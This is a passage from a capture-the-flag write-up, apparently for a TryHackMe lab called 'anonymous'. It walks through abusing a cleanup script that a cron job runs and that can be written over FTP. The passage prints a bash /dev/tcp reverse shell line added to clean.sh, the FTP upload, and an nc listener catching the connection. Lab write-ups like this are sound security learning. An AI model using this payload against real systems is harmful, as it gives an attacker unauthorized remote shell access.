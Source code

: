 ```bash
```
so if varible `tmp_files` is 0 then it will add "Running cleanup script:  nothing to delete" in `removed_files.log` which is another file we found in FTP (above)


At this point, I assume that there is a cronjob that keep execute `clean.sh` since `removed_files.log` contains many "Running cleanup script:  nothing to delete" in the files. To prof that, we can connect to ftp again and try to `ls -la` and check the last modified time on `removed_files.log`.

![clean.sh](../pic/Screenshot%202020-08-08%20at%2016.44.37.png)


Bingo! my assumtion is correct. as you can se the last modified time on `removed_files.log` changed from **14.43** to **14.44**. This prof that there is a cronjob that execute `clean.sh` each minute

# foot hold
To get the foothold on the victim server, we will modify `clean.sh` by adding a reverse shell payload. Thereafter we will put the script a back to victim server and wait for cronjob to execute it.

add ```bash -i >& /dev/tcp/<kali ip>/6969 0>&1``` to the script. it should now look like this 
```bash
#!/bin/bash

bash -i >& /dev/tcp/<kali ip>/6969 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
Then connect to ftp, run ```put clean.sh``` to upload our script, also run ```nc -nvlp 6969``` and wait for it
```console
kali@kali:~/THM/anonymous$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.11.14.220] from (UNKNOWN) [10.10.155.248] 55608
```